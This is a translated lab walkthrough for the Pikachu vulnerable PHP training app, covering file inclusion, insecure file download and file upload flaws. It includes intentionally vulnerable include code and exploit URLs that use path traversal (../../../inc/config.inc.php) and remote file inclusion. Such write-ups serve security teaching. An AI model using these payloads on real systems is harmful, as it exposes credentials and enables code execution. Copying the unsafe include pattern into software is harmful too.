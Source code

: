 Try to construct payload: http://<server IP!!!>/pikachu/vul/fileinclude/fi_local.php?filename=../../../test/phpinfo.txt&submit=%E6%8F%90% E4%BA%A4

The remote file contains
Set allow_url_include to On

Server-side core code
  
//远程文件包含漏洞,需要php.ini的配置文件符合相关的配置
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "$filename";//变量传进来直接包含,没做任何的安全限制
}
  
exploit

Try to construct payload: http://<server IP!!!>/pikachu/vul/fileinclude/fi_remote.php?filename=http://<server B IP!!!>/phpinfo.php&submit=%E6%8F% 90%E4%BA%A4

Unsafe_Filedownload
The file download function will appear on many web systems. Generally, when we click the download link, a download request will be sent to the background. Generally, this request will contain a file name to be downloaded. After receiving the request, the background will start to execute the download code. , and send the file response corresponding to the file name to the browser to complete the download. If the background receives the requested file name and directly puts it into the path of the downloaded file without making a security judgment on it, it may cause Insecure file download vulnerability.

At this time, if the attacker submits a carefully constructed path (such as ../../../etc/passwd) instead of the expected file name of a program, it is very likely that the specified file will be directly Download it. As a result, background sensitive information (password files, source code, etc.) will be downloaded.

Therefore, when designing the file download function, if the downloaded target file is passed in by the front-end, you must consider the security of the passed-in file. Remember: all data interacting with the front-end is not safe and should not be taken lightly!

exploit

Construct payload: http://<server IP!!!>/pikachu/vul/unsafedownload/execdownload.php?filename=../../../inc/config.inc.php

Unsafe_Fileupload
The file upload function is very common in web application systems. For example, many websites need to upload avatars, upload attachments, etc. when registering. When the user clicks the upload button, the background will judge whether the uploaded file is the specified type, suffix name, size, etc., and then rename it according to the designed format and store it in the specified directory. If the background does not make any security judgments on the uploaded files or the judgment conditions are not strict enough, the attacker may upload some malicious files , such as a Trojan horse, which causes the background server to be blocked by webshell.

Therefore, when designing the file upload function, we must strictly consider the security of the incoming files. For example:

Verify file type, extension, size;
Verify how the file was uploaded;
Some complex renaming of files;
Do not expose the path after file upload;
etc...
client_check
Server-side core code
